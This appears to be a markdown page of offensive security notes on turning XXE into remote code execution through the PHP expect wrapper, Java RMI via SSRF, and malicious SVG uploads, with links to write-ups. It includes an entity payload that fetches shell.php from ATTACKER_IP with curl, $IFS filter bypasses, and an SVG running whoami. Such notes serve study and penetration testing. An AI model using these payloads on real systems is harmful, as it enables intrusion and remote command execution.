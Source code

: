 _____________




## reports and writ-ups
1. is very important 
   ______


### 🔍 1. **XXE to RCE via PHP `expect`**
- **Technique**: Use the `expect` wrapper (e.g., `expect://id`) to execute commands. However, this requires the PHP `expect` extension, which is rarely enabled .
- **Bypass Restrictions**: Spaces and special characters (e.g., `|`, `<`) are often blocked. Use `$IFS` (Internal Field Separator) to replace spaces and single quotes to avoid parsing issues .  
  **Example Payload**:
  ```xml
  <!ENTITY xxe SYSTEM "expect://curl$IFS-O$IFS'ATTACKER_IP:8000/shell.php'">
  ```
- **Real-World Write-up**: [Airman's Medium article](https://airman604.medium.com/from-xxe-to-rce-with-php-expect-the-missing-link-a18c265ea4c7) details bypass techniques and provides a reverse shell example using `$IFS` .

---

### ☕ 2. **XXE to RCE via Java RMI (SSRF Chaining)**
- **Technique**: Combine XXE with SSRF to attack internal services like Java RMI (ports 1099, 1090). Use tools like `ysoserial` to generate payloads (e.g., `JRMPClient`) that force the server to fetch and execute malicious classes .
- **Steps**:
  1. Use XXE to scan internal ports and find RMI.
  2. Host a malicious class via HTTP.
  3. Trigger RMI deserialization via XXE-induced SSRF.
- **Real-World Write-up**: [Infosec Write-ups Article](https://infosecwriteups.com/exploiting-xml-external-entity-xxe-injection-vulnerability-f8c4094fef83) covers RCE via RMI and includes lab setup instructions using `xxelab` .

---

### ⛓️ 3. **Chaining XXE with Other Vulnerabilities**
#### **A. XXE + File Upload**
- **Technique**: Upload XML-based files (e.g., SVG) containing XXE payloads. When processed, they trigger exploitation .
  **Example SVG Payload**:
  ```xml
  <svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
    <image xlink:href="expect://whoami"/>
  </svg>
  ```
- **Write-up**: [Infosec Write-ups Article](https://infosecwriteups.com/exploiting-xml-external-entity-xxe-injection-vulnerability-f8c4094fef83) demonstrates uploading malicious SVGs .
